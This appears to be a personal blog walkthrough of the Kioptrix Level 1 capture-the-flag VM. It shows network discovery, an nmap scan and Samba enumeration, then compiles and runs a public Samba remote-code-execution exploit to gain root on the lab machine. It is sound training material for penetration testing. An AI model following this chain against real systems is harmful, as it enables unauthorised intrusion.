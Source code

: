 ```yaml
---
layout: post
title: Kioptrix Level 1 Walkthrough
date: 2018-09-24
excerpt: "Kioptrix 1 Write-Up"
tags: [ctf, cybersec, kioptrix, nmap, metasploit]
comments: true
---
```


# Kioptrix Level 1
Kioptrix consists of five capture-the-flag virtual machine challenges. I intend to write about my methodology of solving each of them in time. This is the first (and easiest). These have been solved many times by people before me, but I feel they represent a good challenge and that documenting my efforts is key to learning.

You can find the VM for download over at [Vulnhub](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/).

## My Setup
Currently, I run Kali in a VM using Virtualbox. I have Kioptrix and any other CTF VMs on a shared NatNetwork with Kali. This way Kali has internet access, target VM access, and it keeping everything behind NAT.

*Note: I have my NatNetwork set with a DHCP server with an IP address range of 10.0.2.0/24*

## VM Discovery
We'll need to get the IP address of the target before we can interact with it.

{% highlight bash %}
root@kali:~# netdiscover -r 10.0.2.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts                 

4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240               
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
...
10.0.2.6        08:00:27:3b:a7:21      1      60  PCS Systemtechnik GmbH     
{% endhighlight %}

I'm running a Kali VM in Virtualbox. For getting Kioptrix #1 to work in Vbox, see this guide: https://www.hypn.za.net/blog/2017/07/15/running-kioptrix-level-1-and-others-in-virtualbox/

VM Discovery
I had these set to NatNetwork, so they can access the internet, communite, but still be inaccessible from the outside.
netdiscover -r 10.0.2.0/24

VM ended up being on 10.0.2.6

Nmap Port Scan: nmap -p- -v -sV 10.0.2.6
22 OpenSSH 2.9p2 (protocol 1.99)
80 Apache httpd 1.3.20 ((Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111 rpcbind
139 Samba smbd
443 Apache ^
32768 status

More enumeration via enum4linux
Not much in here, but to check Samba version, will try MSF's samba scanner.
msf > use auxiliary/scanner/smb/smb_version

Set RHOSTS to our VM at 10.0.2.6

Running it revealed Samba 2.2.1a

Used searchsploit to find exploits

searchsploit samba 2.2

The last one looked promisng
"Samba < 2.2.8 (Linux/BSD) - Remote Code Execution | exploits/multiple/remote/10.c"

Copied the file to pwd, ran gcc on it, then a quick
./a.out 10.0.2.6
worked great. Instant root.
